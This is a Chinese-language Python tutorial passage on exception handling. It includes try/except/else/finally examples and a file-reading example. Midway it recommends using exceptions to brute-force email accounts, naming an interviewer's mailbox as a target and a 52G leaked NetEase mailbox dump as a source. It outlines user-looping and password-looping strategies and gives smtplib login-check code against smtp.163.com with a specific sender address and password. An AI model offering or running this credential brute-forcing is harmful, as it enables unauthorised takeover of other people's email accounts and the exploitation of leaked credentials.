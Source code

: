 ```bash
#output, num2=0
Exception:division by zero
write to log, or clean, or close file
Hello,world

#output, num2=5
2.0
if no exception,get here
write to log, or clean, or close file
Hello,world
```

利用Exception**暴破解邮箱**(比如爆破面试官的邮箱)，还可以用了验证52G网易邮箱还有多少是可以使用的

有两种思路:对于爆破一个库来说，因为有相同的密码，没有相同的用户；还要分析数据量

- 拿一个密码，然后循环用户
- 拿一个用户，然后循环密码

```python
import smtplib

isOK=False
password="tsinghua88480"#尚未加入循环

try:
    SMTPsever="smtp.163.com"#服务器
    Sender="yincheng8848@163.com" #发送邮件的地址

    mailsever=smtplib.SMTP(SMTPsever,25)#邮件服务器25端口
    mailsever.login(Sender,password)#登陆
    
    isOK = True
except smtplib.SMTPAuthenticationError:
    isOK = False
finally:
    mailsever.quit()

if  isOK:
    print(password,"right")
else:
    print(password,"wrong")
```

专业的界面用PyQt，一般的界面用tkinter

```python
#file exception
try:
    file =open("1.txt","rb")#有可能删除文件导致打开失败
    mystr=file.readline().decode("utf-8")#有可能因为编码，decode失败
    mylist=mystr.split(" # ")
    num=eval(mylist[0]) #有可能第一个是string,导致转换失败
    print(mystr,num)
    file.write("12321")#上面是rb，所以这个不允许
except FileNotFoundError:
    print("文件没有找到")
except NameError: #特定的异常
    print("转换失败")
except:#除了上述之外的所有异常。
    print("处理其他所有异常")
else:#没有异常的情况
    print("没有异常执行这里")
finally:#有没有异常，无论如何都执行
    print("有没有异常都执行这一句")
    file.close()
```